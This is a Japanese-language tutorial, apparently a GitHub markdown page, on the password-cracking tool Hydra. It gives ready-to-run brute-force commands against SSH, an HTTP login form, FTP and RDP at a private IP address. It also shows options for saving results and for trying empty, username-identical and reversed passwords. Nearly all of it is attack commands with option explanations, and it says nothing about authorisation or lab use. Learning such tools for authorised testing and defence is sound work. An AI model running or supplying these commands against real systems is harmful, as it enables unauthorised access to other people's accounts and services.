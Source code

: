 

## Hydraの使い方

Hydraは、ログイン認証をクラックするためのパスワードクラッキングツールです。特にHTTP、FTP、SSHなど多くのプロトコルに対応しています。

### 1. 基本的な構文

```bash
hydra [オプション] [ターゲットIP] [プロトコル]
```
### 2. SSHに対するブルートフォース攻撃の例
特定のユーザー名とパスワードリストを使ってSSHサーバーに対してブルートフォース攻撃を行う例です。

```bash
hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100
```
- -l username: 攻撃対象のユーザー名を指定します。
- -P /path/to/passwordlist.txt: 使用するパスワードリストのパスを指定します。
- ssh://192.168.1.100: 攻撃対象のSSHサーバーのIPアドレスを指定します。

### 3. HTTPフォームへのブルートフォース攻撃の例
特定のウェブサイトのログインフォームに対してブルートフォース攻撃を行う例です。

```bash

hydra -l admin -P /path/to/passwordlist.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```
- http-post-form:HTTP POSTリクエストでフォームを送信します。
- /login.php: ログインフォームのあるページのパスを指定します。
- username=^USER^&password=^PASS^: フォームの入力フィールド名を指定し、^USER^と^PASS^でそれぞれユーザー名とパスワードが置き換えられます。
- F=incorrect: ログイン失敗時に表示される文字列を指定します。


### 4. FTPへのブルートフォース攻撃の例
FTPサーバーに対してブルートフォース攻撃を行う例です。

```bash
hydra -l anonymous -p ftp_password 192.168.1.100 ftp
```
- -p ftp_password: 使用する単一のパスワードを指定します。
### 5. RDPへのブルートフォース攻撃の例
WindowsのRDP（リモートデスクトップ）サービスに対してブルートフォース攻撃を行う例です。

```bash

hydra -t 1 -V -f -l administrator -P /path/to/passwordlist.txt rdp://192.168.1.100
```
- -t 1: 1つのスレッドで攻撃を行う（リモートデスクトップのブルートフォース攻撃では推奨される設定）。
- -V: 攻撃の進行状況を表示します。
- -f: パスワードが見つかったら停止します。
### 6. Hydraの結果を出力ファイルに保存する
攻撃結果をファイルに保存するには、-oオプションを使用します。

```bash
hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100 -o results.txt
```
- -o results.txt: 結果をresults.txtに保存します。

```bash
hydra -L user.lst -e nsr ftp://10.0.10.13
```
- -L：ユーザリストファイルの指定
- -e nsr：nは"null"で空欄を設定、-sは"same"でユーザ名と同じパスワードを設定、-rは"reverse"でユーザ名を逆転したパスワードを設定
